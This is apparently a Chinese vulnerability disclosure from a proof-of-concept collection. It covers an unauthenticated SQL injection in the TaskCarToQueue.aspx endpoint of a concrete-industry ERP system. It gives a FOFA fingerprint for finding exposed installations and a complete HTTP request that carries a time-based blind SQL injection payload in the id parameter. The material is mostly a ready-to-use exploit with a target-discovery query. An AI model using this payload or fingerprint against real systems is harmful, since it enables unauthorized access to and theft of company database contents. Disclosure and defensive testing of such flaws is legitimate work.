 ## 商混ERP系统接口TaskCarToQueue.aspx存在SQL注入漏洞

商混ERP系统 TaskCarToQueue.aspx 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息。

## fofa
```javascript
title="商混ERP系统"
```

## poc
```javascript
GET /Dispatch/TaskCarToQueue.aspx?action=addqueue&id=%27WAITFOR+DELAY+%270:0:5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
```

![image-20240919110956450](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409191109679.png)
